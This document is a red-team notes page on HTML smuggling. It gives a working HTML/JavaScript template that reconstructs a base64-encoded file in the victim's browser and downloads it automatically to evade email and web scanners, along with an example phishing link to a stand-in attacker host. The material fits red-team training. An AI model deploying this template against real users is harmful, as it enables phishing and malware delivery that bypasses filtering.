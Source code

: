 ```yaml
---
description: 09/03/2025
---
```


# HTML Smuggling

## What is it?

HTML smuggling is a technique that uses JavaScript to hide files from content filters.&#x20;

If you send a phishing email with a download link, the `HTML` will probably look something like this:

```html
<a href="http://attacker.com/file.doc">Download Me</a>
```

### Security Implications

As a result, Email and web scanners are capable of parsing this data out and taking action upon it. They may be removed entirely, or the URL content fetched can be scanned by an AV sandbox.

### How to get Around This...

`HTML` smuggling allows us to get around this by embedding the payload into the `HTML` source code and using JavaScript to construct URLs by the browser at runtime.

### Boiler Plate Template

```html
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```

#### How does it work?

As this goes "across the wire", a scanner (or other security solution) will only be capable of seeing the `HTML` and JavaScript. There are no hardcoded hyperlinks and the content type of the page itself is just `text/html`.

The encoded content in the `file` variable was created simply with:

```
ubuntu@DESKTOP-3BSK7NO ~> echo -en "This is a smuggled file" | base64
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As you can see in the screenshot above, the `base64`-encoded string, `VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=`, can be decoded to `"This is a smuggled file"`. &#x20;

### What happens when you host this HTML on a page?

Upon a victim user visiting the page, the browser will automatically reconstruct and download the file without any user interaction from the user.

The quickest way we can test this and stand this up is by using `python3 -m http.server`.&#x20;

From there, we now have a simple, insecure `HTTP` server that we can use to host this file.

Upon visiting, we see that we can perform a drive-by download-like attack as `test.txt` is automatically downloaded.&#x20;

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**The output from the Python `HTTP` server:**

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

### MOTW Warning

Files downloaded this way will still retain the MOTW and are also subject to the typical browser restrictions (e.g. warnings when trying to download `.EXE`'s).

```
PS C:\Users\bfarmer\Downloads> gc .\test.txt -Stream Zone.Identifier
[ZoneTransfer]
ZoneId=3
ReferrerUrl=http://nickelviper.com/smuggle.html
HostUrl=http://nickelviper.com/
```
